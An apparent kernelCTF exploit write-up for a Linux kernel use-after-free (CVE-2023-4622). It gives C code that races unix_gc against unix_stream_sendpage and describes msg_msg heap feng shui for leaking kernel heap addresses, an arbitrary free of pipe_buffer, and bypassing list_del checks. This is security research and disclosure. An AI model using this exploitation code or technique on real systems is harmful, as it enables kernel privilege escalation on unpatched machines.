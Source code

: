 ## Race between unix_gc with unix_stream_sendpage
Init two threads to race between unix_gc with unix_stream_sendpage.

Function `trigger_unix_stream_sendpage` in our exploit code will setup a timeout in nanosecond and use system call splice to insert a pipe page to unix_socket.
It will call unix_stream_sendpage to reach our vulnerable function.
```C
void *trigger_unix_stream_sendpage(void *x)
{
	set_cpu(0);
	// setup a certain timeout nanosecond
	struct itimerspec new = {.it_value.tv_nsec = timeout};
	// Send signal to trigger_unix_gc_thread
	write(sync_job[1], "H", 1);
	SYSCHK(timerfd_settime(tfd, TFD_TIMER_CANCEL_ON_SET, &new, NULL));
	splice(datapipe[0], 0, A, 0, 0x1000, 0);
	close(datapipe[0]);
	return NULL;
}

```
Function `trigger_unix_gc_thread` in our exploit code will trigger unix_gc by release a unused unix socket.
It will detect our prepared refcount circle and clear these sk_receive_queue.
```C
void *trigger_unix_gc_thread(void *x)
{
	set_cpu(1);
	int s = socket(AF_UNIX, SOCK_STREAM, 0);
	read(sync_job[0], &x, 1);
	// Release a unix socket will trigger unix_gc
	close(s);
	return NULL;
}
```
## msg_msg exploit technique
This primitive let us to partially overwrite msg.m_list.next of the msg we spray with `0000`. It will make two msg_msg in different message queue
point to the same msg_msg object.
After the bug is trigerred, exploit continue to check and find if there's corrupted message in the queues. We traverse every message
in every queue to check its identifier. We retrieve j-th msg in i-th queue, then check with the identifier stored in retrieved msg object,
if it's not same then we know this msg that will act as "victim" msg, because this msg pointed by another two msg (by mlist.next) and we can
perform msg_msg "feng shui" here.

Exploit continue to perform "feng shui" on msg_msg object. First we leak kernel heap address for prepared ROP address and pipe_buffer address at
kmalloc-1024. Then, we perform known arbitrary free on pipe_buffer technique using `msg.security` and bypass `list_del` (with CONFIG_DEBUG_LIST=y)
(https://github.com/star-sg/security-research/blob/CVE-2023-4622/pocs/linux/kernelctf/CVE-2023-3390_lts_cos_mitigation/docs/novel-techniques.md#config_debug_list-leading-to-expand-vulnerabilitys-capability).
